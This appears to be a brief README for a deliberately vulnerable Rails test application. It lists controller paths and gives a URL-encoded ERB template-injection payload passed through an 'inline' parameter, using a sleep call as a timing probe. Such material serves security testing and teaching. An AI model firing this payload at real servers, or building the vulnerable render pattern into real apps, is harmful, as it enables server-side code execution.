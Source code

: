# railstestmachine
contains vulnerable component and insecured rails app !!!

# Rails Sample/PoC
## ~/workspace/PoC/app/app/controllers/book_controller.rb ->  basic

## :~/workspace/PoC/app/app/controllers -> #ERB injection here
    
    url: http://target/shit?t=payload_here
    Payload: shit?t[inline]=<%25%3D%20sleep%2012.5%20%25>

